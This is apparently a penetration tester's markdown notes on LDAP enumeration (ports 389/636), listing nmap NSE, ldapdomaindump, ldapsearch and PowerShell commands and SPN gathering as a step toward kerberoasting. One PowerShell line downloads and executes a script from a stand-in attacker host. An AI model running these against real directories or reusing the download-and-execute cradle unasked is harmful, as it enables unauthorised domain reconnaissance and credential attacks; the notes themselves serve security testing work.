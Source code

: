 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets
      *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberoast.md)

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPQuery "serviceprincipalname=*"
```
